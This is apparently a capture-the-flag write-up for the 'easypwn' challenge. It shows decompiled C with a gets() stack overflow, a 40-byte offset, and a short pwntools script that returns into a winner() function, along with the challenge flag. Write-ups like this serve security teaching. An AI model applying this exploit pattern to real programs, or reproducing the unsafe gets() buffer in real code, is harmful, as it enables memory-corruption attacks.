

# easypwn

author: surprior

flag: `EPT{S0meth1n6_2_ge7_u_5t4rt3d}`

## Solve

### Reversing
This challenge consisted of a main function which called a function called `hello`

```c
undefined8 main(void)

{
  ignore_me_init_buffering();
  hello();
  return 0;
}
```


The function `hello` prompts the user for a name, and prints it back out. The vulnerability is the use of gets.
```c
void hello(void)

{
  char local_28 [32];
  
  puts("Hello!");
  puts("What\'s your name? ");
  gets(local_28);
  printf("Goodbye, %s!\n",local_28);
  return;
}
```

We can therefore input a lot of chars to overflow the buffer and overwrite `rip`. We need somewhere to jump after overwriting `rip`. Luckily there exists a function called `winnner` that opens and prints `flag.txt`

```c

void winner(void)

{
  int __c;
  int iVar1;
  FILE *__stream;
  
  __stream = (FILE *)FUN_00401140("flag.txt",&DAT_00402008);
  if (__stream == (FILE *)0x0) {
    puts("Unable to open the file \'flag.txt\'");
  }
  else {
    puts("You are Winner! Flag:");
    while( true ) {
      __c = fgetc(__stream);
      iVar1 = feof(__stream);
      if (iVar1 != 0) break;
      putchar(__c);
    }
    putchar(10);
    fclose(__stream);
  }
  return;
}
```


### Creating the exploit

We send a lot of chars into the program and see it crash at the `ret` of the `hello` function


We can then find the offset, which in this case is 40.


The script will therefore look like this
```python
io = start()

payload = b"A"*40
payload += p64(exe.sym.winner)

io.recvuntil(b"What's your name? \n")
io.sendline(payload)

io.interactive()
```


By running this we get the flag!



The whole exploit script can be found here: [exploit.py](exploit.py)
